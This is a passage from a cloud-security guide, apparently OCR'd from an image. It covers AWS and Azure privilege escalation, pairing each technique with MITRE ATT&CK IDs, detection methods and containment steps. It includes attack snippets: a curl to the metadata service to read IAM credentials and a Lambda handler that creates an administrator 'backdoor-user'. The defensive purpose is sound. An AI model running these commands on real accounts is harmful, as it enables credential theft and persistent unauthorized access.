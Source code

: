      ```bash
     # Accessing instance role (attack via SSRF or compromised instance)
     curl http://169.254.169.254/latest/meta-data/iam/security-credentials/role-name
     ```

   - **MITRE ATT&CK**: T1552.005 (Unsecured Credentials: Cloud Instance Metadata API)
   - **Detection Method**: Unusual metadata service access patterns, network monitoring
   - **Containment Strategy**: Implement IMDSv2, restrict metadata access, monitor for SSRF

3. **Lambda Function Permission Escalation**
   - **Description**: Exploiting Lambda execution roles with excessive permissions
   - **Common Vectors**: Overly permissive execution roles, vulnerable Lambda code
   - **Example Commands**:

     ```python
     # Example of Lambda function abusing its permissions (attack)
     import boto3

     def lambda_handler(event, context):
         iam = boto3.client('iam')
         # Create backdoor user if Lambda has iam:CreateUser permission
         response = iam.create_user(UserName='backdoor-user')
         # Attach admin policy if Lambda has iam:AttachUserPolicy permission
         iam.attach_user_policy(
             UserName='backdoor-user',
             PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess'
         )
     ```

   - **MITRE ATT&CK**: T1078.004 (Valid Accounts: Cloud Accounts)
   - **Detection Method**: CloudTrail analysis, Lambda execution monitoring
   - **Containment Strategy**: Implement least privilege for Lambda roles, restrict Lambda networking

### Azure Privilege Escalation

1. **Role Assignment Abuse**
   - **Description**: Exploiting permissions to assign privileged roles
   - **Common Vectors**: Microsoft.Authorization/roleAssignments/write permission
   - **Example Commands**:

     ```powershell
     # Getting current role assignments (reconnaissance)
     Get-AzRoleAssignment -SignInName current.user@domain.com
